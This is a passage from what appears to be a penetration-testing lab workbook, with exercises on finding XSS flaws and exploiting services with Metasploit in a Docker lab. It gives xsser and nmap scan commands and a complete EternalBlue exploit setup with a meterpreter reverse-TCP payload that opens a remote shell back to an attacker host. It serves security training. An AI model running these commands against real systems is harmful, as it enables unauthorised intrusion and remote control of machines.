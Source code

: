 4. Document the exploitation process and findings

### Exercise 9: Cross-Site Scripting (XSS)

**Objective**: Practice identifying and exploiting XSS vulnerabilities.

**Setup**:
1. Use the provided vulnerable web applications in the Docker environment

**Tasks**:
1. Manually identify reflected XSS vulnerabilities
   - Test input fields with XSS payloads
   - Look for unfiltered output
   - Confirm the vulnerability with targeted payloads

2. Manually identify stored XSS vulnerabilities
   - Submit XSS payloads in forms that store data
   - Check if the payload is executed when viewing the stored data
   - Confirm the vulnerability with targeted payloads

3. Use XSSer to automatically identify XSS vulnerabilities
   ```bash
   # Command to use
   xsser --url "http://192.168.100.10/page.php?id=1"
   ```

4. Create a proof-of-concept exploit for each identified vulnerability
5. Document the exploitation process and findings

## Exploitation Exercises

### Exercise 10: Metasploit Framework

**Objective**: Practice using the Metasploit Framework to exploit vulnerabilities.

**Setup**:
1. Use the provided vulnerable machines in the Docker environment

**Tasks**:
1. Use Metasploit to scan for vulnerabilities
   ```bash
   # Command to use
   msfconsole
   > db_nmap -sS -sV 192.168.100.30
   > search type:exploit name:apache
   ```

2. Exploit a vulnerable service using Metasploit
   ```bash
   # Command to use
   msfconsole
   > use exploit/windows/smb/ms17_010_eternalblue
   > set RHOSTS 192.168.100.30
   > set PAYLOAD windows/x64/meterpreter/reverse_tcp
   > set LHOST 192.168.100.5
   > exploit
   ```
